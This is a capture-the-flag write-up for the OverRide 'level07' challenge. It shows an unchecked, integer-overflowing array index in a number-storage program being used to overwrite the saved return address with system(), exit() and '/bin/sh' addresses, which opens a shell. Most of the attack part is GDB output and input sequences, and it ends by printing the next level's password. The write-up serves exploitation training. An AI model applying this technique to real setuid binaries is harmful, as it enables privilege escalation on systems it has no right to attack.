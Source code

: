 Level07 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

Level07 rights:
```Shell
-rwsr-s---+ 1 level08 users   11744 Sep 10  2016 level07
```

Testing the binary:
```Shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store 
 Number: 111
 Index: 1
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 111
 Completed read command successfully
 Input command: store
 Number: -1
 Index: 2
 Completed store command successfully
Input command: read
 Index: 2
 Number at data[2] is 4294967295
```
The program allow us to store unsigned number in an array and read them.

Decompiling with Hex-Rays on https://dogbolt.org/ show us that:
- the array is 400 bytes long, but is casted in DWORD when used and the index asked to the user is multiplied by 4, so we can conclude that it is used an unsigned int array of 100 elements
- the index provided by the user is use without checking if it is bigger than the size of the array.
- the program has reserved all index that are multiple of 3 and refused to store number whose the high bytes are equal to 183.

We can't do a format string attack nor a buffer overflow, so our only way to exploit the binary is to use the `store` command to store value on the stack. The index vulnerability allow us to store value outside the array, in a similar way to a buffer overflow.

We will first retrieve `system()`, `exit()` and `/bin/sh` address using GDB:
```Shell
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system, +9999999, "/bin/sh"
0xf7f897ec
```

The array store unsigned int value so if we want to store this address we need to convert them in decimal:
```
system: 0xf7e6aed0 -> 4159090384
exit: 0xf7e5eb70 -> 4159040368
/bin/sh: 0xf7f897ec -> 4160264172
```

To know wich index to use to 'overflow' our array we need to find the offset beetween `EIP` and the begining of our array:
```Shell
(gdb) disas main
[...]
0x0804872c <+9>:     sub    $0x1d0,%esp
[...]
```
464(0x1d0) bytes are reserved on the stack, 8 bytes correspond to `EIP` so the offset is 456 bytes. The index corresponding to `EIP` is 114 (456 / 4), because this is an array of DWORD (4 bytes).

Let's try to change EIP by '0xaaaaaaaa' (2863311530 in decimal):
```Shell
Input command: store
 Number: 2863311530
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
 ```
We can't use the 114th index because it's a multiple of 3, but since the index is stored in an unsigned int, overflowing it should allow us to store the value at index 114. The provided index is multiplied by 4, so using `MAX_UINT_32 / 4` and adding 114 (1073741938) is equivalent to using 114 as index.
```Shell
Input command: store
 Number: 2863311530
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 2863311530
 Completed read command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0xaaaaaaaa in ?? ()
```

So storing `system()`, `exit()` and `/bin/sh` address at the index 114, 115, 116 should open a terminal.

```Shell
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level07/.pass
cat: /home/users/level07/.pass: Permission denied
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```